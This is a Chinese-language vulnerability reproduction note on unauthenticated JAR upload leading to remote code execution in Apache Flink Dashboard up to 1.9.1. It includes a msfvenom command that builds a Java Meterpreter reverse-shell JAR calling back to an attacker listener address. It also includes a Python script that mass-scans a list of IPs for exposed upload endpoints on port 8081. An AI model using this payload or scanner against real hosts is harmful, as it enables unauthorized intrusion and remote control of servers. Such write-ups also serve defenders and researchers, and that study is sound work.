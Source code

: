 # Apache Flink Dashboard 未授权访问-远程代码命令执行

## 一、漏洞简介

Apache Flink的任意Jar包上传导致远程代码执行的漏洞

## 二、漏洞影响

<= 1.9.1(最新版本)

## 三、复现过程

1、


```bash
msfvenom -p java/meterpreter/reverse_tcp LHOST=10.10.20.166 LPORT=8989 -f jar > rce.jar
```

![](images/15889388273429.png)


2、

上传alewong Jar包

![](images/15889388392029.png)


![](images/15889388450122.png)


批量脚本

https://github.com/ianxtianxt/Apache-Flink-Dashboard-rec


```python
"""
auth: @l3_W0ng
version: 1.0
function: Apache Web Dashboard RCE
usage: python3 script.py ip [port [command]]
               default port=8081
"""



import os
import subprocess
import requests
from multiprocessing.dummy import Pool as ThreadPool


def get_iplist():
    iplist = []
    with open('iplist', 'r') as file:
        data = file.readlines()
        for item in data:
            ip = item.strip()
            iplist.append(ip)

    return iplist


def check_8081(ip):
    url = 'http://' + ip + ':8081/jar/upload'

    try:
        res = requests.get(url=url, timeout=2)
        data = {
            'msg': res.json(),
            'state': 1,
            'url': url,
            'ip': ip
        }

    except:
        data = {
            'msg': 'Secure',
            'state': 0,
            'ip': ip
        }

    if data['state'] == 1:
        print(data)


if __name__ == '__main__':
    iplist = get_iplist()

    pool = ThreadPool(20)
    pool.map(check_8081, iplist)
```

Ps:

当注释掉 if 'Unable to load requested file' in str(data):

之后，出现Token为空，或者 Unauthorized request 时候是不存在未授权访问的，而是带授权